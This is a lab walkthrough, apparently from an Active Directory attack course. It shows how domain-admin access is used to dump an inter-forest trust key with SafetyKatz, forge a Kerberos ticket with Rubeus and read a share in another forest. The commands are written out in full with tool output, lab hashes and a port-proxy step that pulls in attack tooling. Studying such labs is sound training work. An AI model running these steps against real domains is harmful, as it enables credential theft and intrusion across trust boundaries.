


# Learning Objective 20 (Domain Privilege Escalation | Abuse Across Forest Trusts - Trust Key)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, extract the trust key for `eurocorp.local` and forge a silver ticket to get access to `SharedwithDCorp` share on the DC of `eurocorp.local` forest**

---

## Attack Path Steps

- **Access to the Forest 1 DC with DA Privileges**
- **Extract from the Forest 1 DC the Trust Key for the Forest 2**
- **Forge a Silver Ticket (without EA SID History) using the Trust Key from the Forest 1 DC for Access to the Shared Resources of the Forest 2 DC**
- **Leverage the Forged Ticket to Gain Access to the Shared Resources of the Forest 2 DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, extract the trust key for `eurocorp.local` and forge a silver ticket to get access to `SharedwithDCorp` share on the DC of `eurocorp.local` forest**

- **Access to the Forest 1 DC with DA Privileges**

We need the trust key for the trust between `dollarcorp` (forest 1) and `eurocrop` (forest 2), which can be retrieved using Mimikatz or SafetyKatz.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : OTIUTNAB
[*] Domain          : 1ZYFN9EA
[*] Password        : LYGECBLJ
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5140
[+] LUID            : 0x3289056

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 52990038
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x3289056
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/17/2025 6:28:33 AM
  EndTime                  :  2/17/2025 4:28:33 PM
  RenewTill                :  2/24/2025 6:28:33 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  KrFCwNEBLw07rNppG9eoRjor9CvHuEppOhkZS8GV0Tw=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```




`klist`:
```
Current LogonId is 0:0x3289056

Cached Tickets: (1)

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/17/2025 6:28:33 (local)
        End Time:   2/17/2025 16:28:33 (local)
        Renew Time: 2/24/2025 6:28:33 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Run the below commands from the process running as DA to copy `Loader.exe` on `dcorp-dc` and use it to extract credentials.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀


`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`



- **Extract from the Forest 1 DC the Trust Key for the Forest 2**

**We require the trust key for the inter-forest trust from the DC that has the external trust.**

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-trust /patch📌

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-3726368948-3917688648)

[SNIP]

Domain: EUROCORP.LOCAL🏛️ (ecorp / S-1-5-21-3333069040-3914854601-3606488808)
 [  In ]📌 DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL🏛️
    * 2/16/2025 9:16:51 PM - CLEAR   - 14 fd 45 3b db 06 1d cf 60 b1 6c 8f 7f 73 48 65 00 f9 64 2b 24 fe a5 8e 87 64 37 77
        * aes256_hmac       58d399736f8be2c9efa51372ffd06ba9e5c36afd97a9161ea4bafc5d0f1dce8b
        * aes128_hmac       80d9ea04b9e7031892cc39335a390883
        * rc4_hmac_nt       8b47def37766600c86a9ce817a3fadf4🔑

[SNIP]
```

- **Forge a Silver Ticket (without EA SID History) using the Trust Key from the Forest 1 DC for Access to the Shared Resources of the Forest 2 DC**

**Note that we are not injecting any SID History here as it would be filtered out.**


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:8b47def37766600c86a9ce817a3fadf4 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap`:
```
[SNIP]

[*] Action: Build TGS📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL error code ERROR_ACCESS_DENIED (5)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\us.dollarcorp.moneycorp.local\SYSVOL error code ERROR_BAD_NET_NAME (67)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL error code ERROR_ACCESS_DENIED (5)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\us.dollarcorp.moneycorp.local\SYSVOL error code ERROR_BAD_NET_NAME (67)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL🏛️ (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ServiceKey     : 8B47DEF37766600C86A9CE817A3FADF4
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 8B47DEF37766600C86A9CE817A3FADF4
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt📌
[*] Target         : DOLLARCORP.MONEYCORP.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 6:39:56 AM
[*] StartTime      : 2/17/2025 6:39:56 AM
[*] EndTime        : 2/17/2025 4:39:56 PM
[*] RenewTill      : 2/24/2025 6:39:56 AM

[*] base64(ticket.kirbi):

doIGFjCCBhKgAwIBBaEDAgEWooIE4jCCBN5hggTaMIIE1qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBH4wggR6oAMCARehAwIBA6KCBGwEggRoE9cWBih+LxGKDixqdOmGHhJwLIgfqN7ZSjyj6LJBgqICEUeFON...
```

Copy the base64 encoded ticket from above and use it in the following command.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.LOCAL /dc:eurocorp-dc.eurocorp.LOCAL /ptt /ticket:doIGFjCCBhKgAwIBBaEDAgEWooIE4jCCBN5hggTaMIIE1qADAgEFoRwbGkRPTExBUkNPUlAuTU9ORVlDT1JQLkxPQ0FMoi8wLaADAgECoSYwJBsGa3JidGd0GxpET0xMQVJDT1JQLk1PTkVZQ09SUC5MT0NBTKOCBH4wggR6oAMCARehAwIBA6KCBGwEggRoE9cWBih+LxGKDixqdOmGHhJwLIgfqN7ZSjyj6LJBgqICEUeFON...`:
```
[SNIP]

[*] Action: Ask TGS📌

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/eurocorp-dc.eurocorp.LOCAL'
[*] Using domain controller: eurocorp-dc.eurocorp.LOCAL (172.16.15.1)
[+] TGS request successful!
[+] Ticket successfully imported!🎟️
[*] base64(ticket.kirbi):

  ServiceName              :  cifs📌/eurocorp-dc.eurocorp.LOCAL
  ServiceRealm             :  EUROCORP.LOCAL🏛️
  UserName                 :  Administrator🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  StartTime                :  2/17/2025 6:41:55 AM
  EndTime                  :  2/17/2025 4:39:56 PM
  RenewTill                :  2/24/2025 6:39:56 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Nk2XyKZnkKBktXbXGZa0JWGTRWe39S4JumkWhRlUqrI=
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: cifs📌/eurocorp-dc.eurocorp.LOCAL @ EUROCORP.LOCAL🏛️
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 2/17/2025 6:41:55 (local)
        End Time:   2/17/2025 16:39:56 (local)
        Renew Time: 2/24/2025 6:39:56 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Once the ticket is injected, we can access explicitly shared resources on `eurocorp-dc`.

- **Leverage the Forged Ticket to Gain Access to the Shared Resources of the Forest 2 DC**

**Note that the only way to enumerate accessible resources (service on a machine) in `eurocorp` would be to request a TGS for each one and then attempt to access it.**

`dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`:
```
 Volume in drive \\eurocorp-dc.eurocorp.local\SharedwithDCorp has no label.
 Volume Serial Number is 1A5A-FDE2

 Directory of \\eurocorp-dc.eurocorp.local\SharedwithDCorp📁

11/16/2022  04:26 AM    <DIR>          .
11/15/2022  06:17 AM                29 secret.txt
               1 File(s)             29 bytes
               1 Dir(s)   7,438,217,216 bytes free
```

`type \\eurocorp-dc.eurocorp.local\SharedwithDCorp\secret.txt`:
```
Dollarcorp DAs can read this!📌
```
🚩

---
---
